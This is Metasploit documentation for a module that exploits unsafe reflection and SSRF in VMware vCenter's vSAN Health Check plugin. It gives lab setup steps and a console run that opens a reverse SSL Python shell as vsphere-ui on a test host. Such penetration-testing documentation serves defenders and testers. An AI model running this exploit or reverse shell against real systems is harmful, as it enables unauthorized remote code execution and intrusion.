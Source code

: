 ## Vulnerable Application

### Description

This module exploits Java unsafe reflection and SSRF in the VMware
vCenter Server Virtual SAN Health Check plugin's `ProxygenController`
class to execute code as the `vsphere-ui` user.

See the [vendor advisory] for affected and patched versions. Tested
against **VMware vCenter Server 6.7 Update 3m (Linux appliance)**.

[vendor advisory]: https://www.vmware.com/security/advisories/VMSA-2021-0010.html

### Setup

Follow [VMware's official documentation] or the unorthodox steps below.

1. Download ISO
2. Extract OVA from ISO
3. Import OVA
4. Boot VM
5. Set root password in console
6. Complete setup at <https://change-this-to-your-target-host:5480/>
7. **(Optional)** Upgrade to desired patch level

Initialization may take a while before the target is exploitable.

[VMware's official documentation]: https://docs.vmware.com/en/VMware-vSphere/6.7/com.vmware.vcenter.install.doc/GUID-8DC3866D-5087-40A2-8067-1361A2AF95BD.html

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Scenarios

### VMware vCenter Server 6.7 Update 3m (Linux appliance)

```
msf6 > use exploit/linux/http/vmware_vcenter_vsan_health_rce
[*] Using configured payload cmd/unix/reverse_python_ssl
msf6 exploit(linux/http/vmware_vcenter_vsan_health_rce) > options

Module options (exploit/linux/http/vmware_vcenter_vsan_health_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      443              yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_python_ssl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command


msf6 exploit(linux/http/vmware_vcenter_vsan_health_rce) > set rhosts 172.16.57.2
rhosts => 172.16.57.2
msf6 exploit(linux/http/vmware_vcenter_vsan_health_rce) > set lhost 172.16.57.1
lhost => 172.16.57.1
msf6 exploit(linux/http/vmware_vcenter_vsan_health_rce) > run

[*] Started reverse SSL handler on 172.16.57.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. System property user.name is vsphere-ui.
[*] Executing cmd/unix/reverse_python_ssl (Unix Command)
[*] Command shell session 1 opened (172.16.57.1:4444 -> 172.16.57.2:57878) at 2021-07-08 17:25:09 -0500

id
uid=1016(vsphere-ui) gid=100(users) groups=100(users),59001(cis)
uname -a
Linux photon-machine 4.4.250-1.ph1 #1-photon SMP Fri Jan 15 03:01:15 UTC 2021 x86_64 GNU/Linux
```
